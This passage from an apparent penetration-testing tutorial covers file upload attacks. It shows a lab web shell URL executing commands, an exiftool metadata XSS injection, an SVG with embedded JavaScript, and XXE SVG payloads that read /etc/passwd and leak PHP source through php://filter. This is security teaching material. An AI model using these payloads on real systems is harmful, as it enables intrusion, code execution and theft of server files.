

The uploaded file is now accessible and executable. Interacting with the web shell confirms successful code execution:

```
http://83.136.253.5:49702/profile_images/shell.gif.phar?cmd=id
```

All upload defenses were successfully bypassed, resulting in remote code execution on the target server.


---

## Limited File Uploads

So far, we have focused on vulnerabilities that allow `arbitrary file uploads`, typically due to weak or flawed validation mechanisms. In some cases, however, upload functionality is more securely implemented and only permits a restricted set of file types. These scenarios are commonly referred to as `limited file uploads`.

While limited file uploads may not be bypassable using the techniques discussed earlier (e.g., extension manipulation or content-type spoofing), they can still introduce security risks. Even when executable file types are blocked, certain **non-executable formats** may still be abused to achieve impactful attacks. 

File types such as `SVG`, `HTML`, and `XML` can often be leveraged for client-side attacks, including **stored Cross-Site Scripting (XSS)**, **CSRF**, or **data exfiltration**. As a result, **fuzzing for allowed file extensions** remains a critical step in any file upload assessment. Identifying which file types are accepted enables us to determine the potential attack surface and pivot toward alternative exploitation techniques when direct code execution is not possible.

### Cross-Site Scripting (XSS)

Certain file types can be abused to achieve **stored cross-site scripting (XSS)** when an application allows file uploads and subsequently renders user-controlled content without proper sanitization.

HTML files do not allow direct server-side code execution, but they can be leveraged to execute **client-side JavaScript**. If an attacker is able to upload an HTML file containing malicious JavaScript, the payload will execute whenever the file is opened in a browser.

For this attack to succeed, a victim must be tricked into opening the uploaded file. This is commonly achieved through **social engineering or phishing**. While this does not result in remote code execution, it can be used for session hijacking, credential theft, CSRF attacks, or further client-side exploitation.

Some applications extract and display metadata from uploaded images. If metadata fields are rendered without proper output encoding, they may become a vector for stored XSS.

Image metadata fields that commonly accept free-form text include:

- `Comment`
- `Artist`
- `ImageDescription`

An XSS payload can be embedded into such fields using tools like `exiftool`:

Install `exiftool`:

```bash
sudo apt install exiftool -y
```

Inject XSS payload:

```bash
exiftool -Comment=' ">' picture.jpg
```

Verify the injected metadata:

```bash
exiftool picture.jpg
```


When the application displays this metadata in a web page without proper sanitization, the injected JavaScript executes in the victim’s browser.

`Scalable Vector Graphics (SVG)` files are XML-based and can contain embedded JavaScript. If an application allows SVG uploads and renders them inline, they can be abused to execute XSS payloads.

An example malicious SVG file (`payload.svg`) is shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

Once uploaded, the JavaScript payload executes whenever the SVG is rendered by the application, resulting in stored XSS.



---

### XML External Entity (XXE) Injection

XXE injection is another attack vector that may be possible in **limited file upload scenarios**, particularly when the application accepts and processes **XML-based file formats** such as `SVG`.

If user-supplied XML is parsed by the server without proper hardening, an attacker may be able to define external entities that reference local or remote resources. This can lead to **local file inclusion (LFI)**, sensitive data disclosure, or even server-side request forgery (SSRF).

The following example demonstrates an XXE payload embedded inside an `SVG` file. The payload defines an external entity that reads the `/etc/passwd` file using the `file://` scheme:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```


When the file is processed and rendered, the contents of `/etc/passwd` are included in the output. **By inspecting the page source**, we can clearly observe the file contents:



In PHP-based environments, XXE vulnerabilities can often be escalated by leveraging **PHP stream wrappers**. One particularly useful wrapper is `php://filter`, which allows us to transform file contents before they are returned.

The following payload uses the `convert.base64-encode` filter to extract the source code of `index.php`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```


Inspecting the page source reveals a Base64-encoded version of the file:


We can decode the output locally to recover the source code:

```bash
echo "<base64 string>" | base64 -d
```


Applying the same technique to `upload.php` reveals critical implementation details, including:

- The upload directory (`./images/`)
- File extension validation
- Content-Type and MIME-type enforcement
- File size restrictions

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

Decoded source code:

```php
<?php
$target_dir = "./images/";
$fileName = basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!preg_match('/^.*\.svg$/', $fileName)) {
    echo "Only SVG images are allowed";
    die();
}

foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/svg+xml'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    $latest = fopen($target_dir . "latest.xml", "w");
    fwrite($latest, basename($_FILES["uploadFile"]["name"]));
    fclose($latest);
    echo "File successfully uploaded";
} else {
    echo "File failed to upload";
}
```

This confirms that, despite strict filtering, the application is still vulnerable to XXE due to unsafe XML parsing.

